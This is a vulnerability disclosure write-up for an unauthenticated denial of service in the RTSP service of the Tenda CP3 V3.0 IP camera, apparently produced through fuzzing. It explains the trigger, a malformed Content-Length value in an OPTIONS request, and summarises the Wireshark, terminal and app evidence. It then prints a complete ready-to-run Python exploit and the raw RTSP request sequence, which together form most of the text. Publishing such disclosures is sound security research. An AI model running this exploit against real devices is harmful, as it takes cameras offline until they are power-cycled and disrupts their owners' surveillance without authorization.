






# Tenda CP3 V3.0 - Unauthenticated RTSP Denial of Service

### Information

Vendor: Tenda

Affected Product: CP3 V3.0

Affected Firmware Version: V31.1.9.91

Vendor Homepage: https://www.tendacn.com/

Vendor Contact Information: productsecure@tenda.cn (Tenda Product Security Advisory: https://www.tendacn.com/page/securityadvisory)



Affected Component: RTSP service (TCP/554)

### Description

An unauthenticated denial-of-service vulnerability exists in the RTSP service of the Tenda CP3 V3.0 IP camera (firmware V31.1.9.91). A malformed `Content-Length` value in the demonstrated negative 32-bit range (for example, `4294927296` / `0xFFFF63C0`) is not validated; a single `OPTIONS` request carrying this header terminates the RTSP listener, causes the camera to go offline, and requires a manual power cycle to recover.

### Exploit Demo

The camera was reachable on TCP/554 before the test and answered a normal RTSP request. The PoC sends the six-request sequence below; the first request is the trigger and carries the malicious header. The same negative range was also verified with `-16384`, `-32768`, `-49152`, `-65536` and `-65537`; `-1` and `INT_MIN` did not trigger the failure.

1. The `OPTIONS` request with `Content-Length: 4294927296` is accepted and answered with `200 OK`. The highlighted header is shown in the Wireshark TCP stream:



2. The RTSP connection is then reset by the device. Wireshark shows the server-to-client `RST` packets after the trigger and repeated retransmissions:



3. The PoC continues with the normal session sequence. The first independent health probe receives a connection reset, and subsequent probes are refused (`ConnectionRefusedError`). The terminal output ends with `DoS reproduced.`:



4. The camera disappears from the local network. The Tenda mobile application reports the device as offline (`设备已离线`):



5. VLC can no longer open the RTSP stream; three attempts return `VLC 无法打开 MRL rtsp://.../tenda`:



6. A 36-second screen recording of the complete reproduction is provided as [06_reproduction_video.mp4](./images/06_reproduction_video.mp4). It shows the normal RTSP service before the attack, the trigger, and the camera going offline. The video is retained as primary evidence that the denial of service is real and reproducible.

### POC

The following standalone Python 3 PoC sends the verified sequence. The target address is a placeholder; replace `192.168.1.100` with the camera IP. No username or password is required.

```python
#!/usr/bin/env python3
"""
Click-to-run PoC for the Tenda CP3 V3.0 RTSP Content-Length DoS.

Hardcoded target: 192.168.1.100:554 (placeholder)
Just open this file in VS Code and click Run. No command-line arguments needed.

The script sends the verified six-request RTSP sequence with
`Content-Length: 4294927296` (0xFFFF63C0) added to the OPTIONS request, then
checks whether a fresh TCP connection can still complete a normal OPTIONS
request. On a vulnerable unit the RTSP listener stops accepting connections
and the device has to be power-cycled.

Use only against a device you own or are explicitly authorized to test.
"""

import ipaddress
import re
import socket
import sys
import time
from datetime import datetime

# ---------------------------------------------------------------------------
# Hardcoded test parameters (edit here if the lab address changes).
# ---------------------------------------------------------------------------
TARGET_HOST = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
CONTENT_LENGTH = 4294927296  # 0xFFFF63C0, value used in the verified run

USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"
PROBE_TIMEOUT = 5.0
PROBE_ATTEMPTS = 3
PROBE_INTERVAL = 5.0
RESPONSE_TIMEOUT = 5.0

REQUEST_NAMES = ("OPTIONS", "DESCRIBE", "SETUP_1", "SETUP_2", "PLAY", "TEARDOWN")


def build_request(name, host, port, content_length, session="CFE59D55"):
    """Build one exact RTSP request with CRLF line endings."""
    base = "rtsp://%s:%d" % (host, port)
    stream_base = "rtsp://%s" % host

    if name == "OPTIONS":
        return (
            "OPTIONS {base}/tenda RTSP/1.0\r\n"
            "CSeq: 2\r\n"
            "User-Agent: {ua}\r\n"
            "Content-Length: {cl}\r\n\r\n"
        ).format(base=base, ua=USER_AGENT, cl=content_length)

    if name == "DESCRIBE":
        return (
            "DESCRIBE {base}/tenda RTSP/1.0\r\n"
            "CSeq: 3\r\n"
            "User-Agent: {ua}\r\n"
            "Accept: application/sdp\r\n\r\n"
        ).format(base=base, ua=USER_AGENT)

    if name == "SETUP_1":
        return (
            "SETUP {stream_base}/ch=1?subtype=0/trackID=1 RTSP/1.0\r\n"
            "CSeq: 4\r\n"
            "User-Agent: {ua}\r\n"
            "Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
        ).format(stream_base=stream_base, ua=USER_AGENT)

    if name == "SETUP_2":
        return (
            "SETUP {stream_base}/ch=1?subtype=0/trackID=2 RTSP/1.0\r\n"
            "CSeq: 5\r\n"
            "User-Agent: {ua}\r\n"
            "Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
            "Session: {session}\r\n\r\n"
        ).format(stream_base=stream_base, ua=USER_AGENT, session=session)

    if name == "PLAY":
        return (
            "PLAY {stream_base}/ch=1?subtype=0/ RTSP/1.0\r\n"
            "CSeq: 6\r\n"
            "User-Agent: {ua}\r\n"
            "Session: {session}\r\n"
            "Range: npt=0.000-\r\n\r\n"
        ).format(stream_base=stream_base, ua=USER_AGENT, session=session)

    if name == "TEARDOWN":
        return (
            "TEARDOWN {stream_base}/ch=1?subtype=0/ RTSP/1.0\r\n"
            "CSeq: 7\r\n"
            "User-Agent: {ua}\r\n"
            "Session: {session}\r\n\r\n"
        ).format(stream_base=stream_base, ua=USER_AGENT, session=session)

    raise ValueError("unknown request: %s" % name)


def recv_one_response(sock, timeout=RESPONSE_TIMEOUT):
    """Read one RTSP response, skipping interleaved RTP frames if present."""
    sock.settimeout(timeout)
    buf = bytearray()
    deadline = time.monotonic() + timeout

    while True:
        # Skip complete TCP-interleaved RTP frames: '$' + channel + 2-byte length.
        while len(buf) >= 4 and buf[0:1] == b"$":
            frame_len = int.from_bytes(buf[2:4], "big")
            total = 4 + frame_len
            if len(buf) < total:
                break
            del buf[:total]

        if b"\r\n\r\n" in buf:
            end = buf.index(b"\r\n\r\n") + 4
            head = bytes(buf[:end])
            match = re.search(rb"(?im)^Content-Length:\s*(\d+)", head)
            body_len = int(match.group(1)) if match else 0
            total = end + body_len
            while len(buf) < total:
                if time.monotonic() > deadline:
                    return bytes(buf)
                chunk = sock.recv(65536)
                if not chunk:
                    return bytes(buf)
                buf.extend(chunk)
            return bytes(buf[:total])

        if time.monotonic() > deadline:
            return bytes(buf)
        chunk = sock.recv(65536)
        if not chunk:
            return bytes(buf)
        buf.extend(chunk)


def print_response(data):
    """Print status line, headers and body in the manual-replay style."""
    if not data:
        print("  [命中] 空响应")
        return

    head, sep, body = data.partition(b"\r\n\r\n")
    lines = head.decode("latin-1").split("\r\n")
    status = lines[0] if lines else "<no status line>"
    print("  <- 状态码: %s" % status)
    print("  响应头:")
    for line in lines[:24]:
        print("    < " + line)

    if body:
        body_text = body.decode("latin-1", errors="replace")
        body_lines = body_text.split("\r\n")
        print("  响应体:")
        for line in body_lines[:30]:
            print("    < " + line)
        if len(body_lines) > 30:
            print("    < ...（响应体共 %d 字节，已截断显示）" % len(body))


def send_one(sock, index, total, name, payload, teardown=False):
    """Send one request, print it and its response; return (data, error)."""
    print("\n[%d/%d] %s" % (index, total, name))
    print("  发送:")
    for line in payload.rstrip("\r\n").split("\r\n"):
        print("    | " + line)

    started = time.monotonic()
    try:
        sock.sendall(payload.encode("latin-1"))
    except (BrokenPipeError, ConnectionResetError, OSError) as exc:
        if teardown:
            print("  -> TEARDOWN 发送失败: %s: %s" % (type(exc).__name__, exc))
        else:
            print("  [命中] 发送异常: %s: %s" % (type(exc).__name__, exc))
        return b"", type(exc).__name__

    try:
        data = recv_one_response(sock, RESPONSE_TIMEOUT)
    except socket.timeout:
        if teardown:
            print("  -> 无 TEARDOWN 响应（等待 %.0fs，属正常）" % RESPONSE_TIMEOUT)
            return b"", "teardown_empty"
        print("  [命中] 响应超时（%.1fs）" % RESPONSE_TIMEOUT)
        return b"", "timeout"
    except (ConnectionResetError, ConnectionAbortedError, OSError) as exc:
        if teardown:
            print("  -> TEARDOWN 接收失败: %s: %s" % (type(exc).__name__, exc))
            return b"", "teardown_empty"
        print("  [命中] 接收异常: %s: %s" % (type(exc).__name__, exc))
        return b"", type(exc).__name__

    elapsed = time.monotonic() - started
    print("  [耗时] %.3fs" % elapsed)

    if not data:
        if teardown:
            print("  -> 无 TEARDOWN 响应（属正常）")
            return b"", "teardown_empty"
        print("  [命中] 空响应")
        return b"", "empty"

    print_response(data)
    return data, None


def extract_session(data):
    match = re.search(rb"(?im)^Session:\s*([^;\r\n]+)", data)
    return match.group(1).decode("latin-1").strip() if match else ""


def probe_service(host, port, timeout):
    """Open a fresh connection, send a normal OPTIONS, return (alive, detail)."""
    try:
        sock = socket.create_connection((host, port), timeout=timeout)
    except ConnectionRefusedError as exc:
        return False, "连接被拒绝（ConnectionRefusedError: %s）" % exc
    except socket.timeout:
        return False, "连接超时（socket.timeout）"
    except OSError as exc:
        return False, "连接失败（%s: %s）" % (type(exc).__name__, exc)

    try:
        request = (
            "OPTIONS rtsp://%s:%d/tenda RTSP/1.0\r\n"
            "CSeq: 1\r\n"
            "User-Agent: PoC-Checker/1.0\r\n\r\n"
        ) % (host, port)
        sock.sendall(request.encode("ascii"))
        data = recv_one_response(sock, timeout)
    except socket.timeout:
        return False, "已连接，但 %.1fs 内无响应（socket.timeout）" % timeout
    except (ConnectionResetError, ConnectionAbortedError, OSError) as exc:
        return False, "已连接，但读取失败（%s: %s）" % (type(exc).__name__, exc)
    finally:
        try:
            sock.close()
        except OSError:
            pass

    if data.startswith(b"RTSP/1.0 200"):
        return True, data.split(b"\r\n", 1)[0].decode("latin-1", "replace")
    if not data:
        return False, "已连接，但无响应"
    return False, data.split(b"\r\n", 1)[0].decode("latin-1", "replace")


def main():
    host, port, content_length = TARGET_HOST, TARGET_PORT, CONTENT_LENGTH

    try:
        addr = ipaddress.ip_address(host)
    except ValueError:
        print("[!] Invalid IPv4 address: %s" % host)
        return 2
    if not addr.is_private:
        print("[!] Refusing to run against a non-private address.")
        return 2

    print("=" * 78)
    print("Tenda CP3 V3.0 RTSP Content-Length DoS - manual reproduction")
    print("  目标      : %s:%d" % (host, port))
    print("  触发点    : OPTIONS / Content-Length: %s" % content_length)
    print("  请求数    : %d" % len(REQUEST_NAMES))
    print("  发送时间  : %s" % datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
    print("=" * 78)
    print("[*] Start Wireshark capture now; the trigger follows in 2 seconds.")
    time.sleep(2)

    alive, detail = probe_service(host, port, PROBE_TIMEOUT)
    print("[*] Pre-check: %s (%s)" % ("alive" if alive else "down", detail))
    if not alive:
        print("[!] Target is not reachable before the test; aborting.")
        return 1

    try:
        sock = socket.create_connection((host, port), timeout=10)
    except OSError as exc:
        print("[!] Cannot connect: %s" % exc)
        return 1

    print("[连接] 已连接 %s:%d" % (host, port))
    session = "CFE59D55"
    abnormal = False

    for index, name in enumerate(REQUEST_NAMES, 1):
        payload = build_request(name, host, port, content_length, session)
        teardown = (name == "TEARDOWN")
        data, error = send_one(sock, index, len(REQUEST_NAMES), name, payload, teardown)

        if name == "SETUP_1" and data:
            new_session = extract_session(data)
            if new_session:
                session = new_session
                print("  [会话] 取得 Session: %s" % session)

        if teardown:
            continue

        if error and error != "teardown_empty":
            print("  [!] 当前 TCP 连接已失效，停止后续请求。")
            abnormal = True
            break

        if name == "OPTIONS" and data and not data.startswith(b"RTSP/1.0 200"):
            print("  [!] OPTIONS 未返回 200，停止后续请求。")
            abnormal = True
            break

    try:
        sock.close()
    except OSError:
        pass

    print("\n[*] 触发序列发送完毕；等待 2 秒后开始独立健康探测。")
    time.sleep(2)

    vulnerable = False
    for attempt in range(1, PROBE_ATTEMPTS + 1):
        alive, detail = probe_service(host, port, PROBE_TIMEOUT)
        print("[probe %d/%d] %s:%d -> %s (%s)" % (
            attempt, PROBE_ATTEMPTS, host, port,
            "alive" if alive else "unreachable", detail))
        if not alive:
            vulnerable = True
        else:
            vulnerable = False
            break
        if attempt < PROBE_ATTEMPTS:
            time.sleep(PROBE_INTERVAL)

    print()
    if vulnerable:
        print("[+] RTSP service is unreachable after the trigger.")
        print("[+] The device may need a power cycle to recover.")
        print("[+] DoS reproduced.")
        return 0

    print("[-] RTSP service still answers normal OPTIONS probes.")
    print("[-] DoS not observed on this run; the target may be patched or the")
    print("    Content-Length value may be outside the affected range.")
    if abnormal:
        print("[i] 本次连接在触发后失效，但独立健康检查仍可达。")
    return 1


if __name__ == "__main__":
    sys.exit(main())

```

### MSG

The complete verified request sequence is shown below. `192.168.1.100` is a placeholder for the target address. All request lines use CRLF; the decisive header is `Content-Length: 4294927296` on the first `OPTIONS` request.

```text
OPTIONS rtsp://192.168.1.100:554/tenda RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Content-Length: 4294927296

DESCRIBE rtsp://192.168.1.100:554/tenda RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

SETUP rtsp://192.168.1.100/ch=1?subtype=0/trackID=1 RTSP/1.0
CSeq: 4
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://192.168.1.100/ch=1?subtype=0/trackID=2 RTSP/1.0
CSeq: 5
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: CFE59D55

PLAY rtsp://192.168.1.100/ch=1?subtype=0/ RTSP/1.0
CSeq: 6
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Session: CFE59D55
Range: npt=0.000-

TEARDOWN rtsp://192.168.1.100/ch=1?subtype=0/ RTSP/1.0
CSeq: 7
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Session: CFE59D55
```

The first `OPTIONS` request is the decisive trigger; the remaining requests are the normal six-request seed sequence and may not be processed once the RTSP listener has died. The `Session` value above is historical; the PoC obtains the current value from `SETUP_1`.

### Credit

CRFuzzer
